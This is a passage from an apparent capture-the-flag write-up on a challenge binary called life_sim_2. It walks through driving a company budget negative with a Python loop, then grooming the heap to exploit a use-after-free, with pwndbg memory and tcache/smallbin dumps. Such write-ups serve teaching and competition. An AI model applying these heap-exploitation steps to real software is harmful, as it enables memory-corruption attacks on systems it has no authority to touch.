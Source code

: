 ### Going bankrupt

Plotting the function in Desmos, this is what we get:

![Company budget against number of workers](/images/posts/sekai-2024/life_sim_2-desmos.png)

After playing with the values for a bit, I got an x-intercept very close to 43
workers.

```python
add_company(b"target-c", 1000)
add_project(b"target-c", b"target-p", 5160)

for i in range(43):
    hire_worker(b"target-c", b"target-p", b"john" + str(i).encode(), 0x40)

elapse_week()

```

Of course, because of rounding, this value won't be exact.

```
pwndbg> tel 0x555555588330
00:0000│  0x555555588330 ◂— 'target-c'
01:0008│  0x555555588338 ◂— 0
02:0010│  0x555555588340 ◂— 0xfffffffffffff928
03:0018│  0x555555588348 ◂— 1
04:0020│  0x555555588350 —▸ 0x555555588430 —▸ 0x5555555883e0 —▸ 0x5555555883f0 ◂— 'target-p'
05:0028│  0x555555588358 —▸ 0x555555588438 ◂— 0
06:0030│  0x555555588360 —▸ 0x555555588438 ◂— 0
07:0038│  0x555555588368 ◂— 0x21 /* '!' */
```

But we can rectify this by adjusting the company's initial budget by
`0xffffffffffffffff - 0xfffffffffffff928 + 1 = 1752`.

### Leaking heap

Now we're almost ready to exploit our UAF, but we need to groom the heap a
little first. Our approach to the UAF will be to misalign the heap against our
UAF project, so that something like this happens:

```
pwndbg> bins
tcachebins
0x20 [  3]: 0x5555555884a0 —▸ 0x5555555888a0 —▸ 0x555555588430 ◂— 0
0x30 [  3]: 0x5555555882c0 —▸ 0x555555588900 —▸ 0x5555555882f0 ◂— 0
0x40 [  7]: 0x555555589cb0 —▸ 0x555555589c70 —▸ 0x555555589c30 —▸ 0x555555589bf0 —▸ 0x555555589bb0 —▸ 0x555555589b70 —▸ 0x555555588cb0 ◂— 0
0x50 [  7]: 0x555555588560 —▸ 0x555555588510 —▸ 0x5555555884c0 —▸ 0x555555588450 —▸ 0x5555555883e0 —▸ 0x555555588a00 —▸ 0x5555555889b0 ◂— 0
0x90 [  3]: 0x555555588740 —▸ 0x555555588be0 —▸ 0x555555588b50 ◂— 0
0x100 [  1]: 0x555555589d30 ◂— 0
0x110 [  2]: 0x555555588fc0 —▸ 0x555555588eb0 ◂— 0
0x1f0 [  1]: 0x555555589e30 ◂— 0
0x210 [  1]: 0x5555555894d0 ◂— 0
0x3d0 [  1]: 0x55555558a020 ◂— 0
0x410 [  1]: 0x55555558ab80 ◂— 0
fastbins
empty
unsortedbin
empty
smallbins
0x40: 0x555555589ce0 —▸ 0x15555514cb50 ◂— 0x555555589ce0
0x50: 0x5555555887c0 —▸ 0x555555588310 —▸ 0x555555588380 —▸ 0x15555514cb60 ◂— 0x5555555887c0
0x190: 0x5555555885a0 —▸ 0x15555514cca0 ◂— 0x5555555885a0
```
